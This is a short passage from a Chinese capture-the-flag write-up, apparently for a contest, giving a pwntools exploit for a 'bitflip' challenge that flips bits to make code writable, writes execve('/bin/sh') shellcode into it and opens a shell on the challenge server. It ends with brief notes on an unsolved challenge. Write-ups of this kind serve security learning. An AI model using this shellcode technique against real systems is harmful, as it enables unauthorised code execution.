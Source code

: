 代码段可写，有了循环之后把shellcode写进去，再翻转call的一个bit到shellcode即可  

```
from pwn import *

context.terminal = ["tmux", "split", "-h"]

binsh = u64("/bin/sh\0")

shellcode = asm(f"""
        movabs rax, {hex(binsh)}
        push rax
        mov rdi, rsp
        xor esi, esi
        xor edx, edx
        mov eax, 59
        syscall
""", arch="amd64")

with open("./bitflip", "rb") as f:
    f.seek(0x10e0)
    rawcode = f.read(len(shellcode))

def doflip(addr, offset):
    global s
    s.sendlineafter("You can flip only one bit in my memory. Where do you want to flip?", hex(addr)+" "+str(offset))
    s.recvuntil("Done.")

#s = process("./bitflip")
s = remote("202.38.93.111", 10231) ; s.sendlineafter("token", "<hide here>")
#attach(s)
doflip(0x401296, 1+4)


for i in range(len(shellcode)):
    for j in range(8):
        if ( ((shellcode[i] ^ rawcode[i]) >> j) & 1):
            doflip(0x4010e0+i, j)

doflip(0x401296, 2+4)

s.interactive()
```

## 超迷你的挖矿模拟器 - 未做出

java的代码看起来太难受（java语言的锅，不是代码写的不好），所以没注意到非预期解的存在  
预期解超出能力范围了  

## Flag计算机
